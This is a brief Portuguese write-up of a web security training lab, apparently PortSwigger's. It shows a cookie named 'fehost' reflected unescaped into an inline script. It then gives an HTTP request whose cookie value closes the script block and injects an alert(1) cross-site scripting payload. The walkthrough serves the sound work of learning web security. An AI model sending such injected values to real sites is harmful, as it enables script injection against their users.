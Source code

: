 #ctf

Neste lab ao fazer uma requisição é possível perceber que a página faz uso do cookie fehost ao retornar no html

```html
<script>
    data = {
        "host":"0a1b00dd04cf78fa83774b21001b002f.web-security-academy.net",
        "path":"/",
        "frontend":"prod-cache-01"
    }
</script>
```

Escaping a string do fehost temos:

```
GET / HTTP/2
Host: 0a1b00dd04cf78fa83774b21001b002f.web-security-academy.net
Cookie: session=TrSMFdpEOsee901J6NzjBp2AoxMTFxad; fehost=prod-cache-02"}</script><script>alert(1)</script>
```

GG